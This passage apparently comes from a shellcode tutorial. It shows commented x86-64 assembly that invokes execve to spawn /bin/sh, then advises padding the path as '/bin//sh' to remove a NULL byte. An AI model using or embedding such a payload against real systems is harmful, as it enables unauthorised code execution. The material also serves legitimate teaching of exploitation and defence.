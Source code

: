    ; using syscall execve
=&gt; 0x4000c3:    push   0x3b
   0x4000c5:    pop    rax
   
   ; clear RDX by sign-extension of RAX
   0x4000c6:    cdq
   
   ; set RBX to point to "/bin/sh" (reversed)
   ; followed by a NULL byte
   0x4000c7:    movabs rbx,0x68732f6e69622f
   0x4000d1:    push   rbx
   
   ; 1st argument of execve: pointer to program to call
   0x4000d2:    push   rsp
   0x4000d3:    pop    rdi
   
   ; invoke execve
   0x4000d4:    syscall</code></pre><figcaption>Spawn <code>/bin/sh</code></figcaption></figure><p>Note that the instruction <code>movabs</code> contains a NULL byte in the path of the shell. </p><p>To improve it, you can use a path such as <code>/bin//sh</code> or <code>//bin/sh</code>.</p>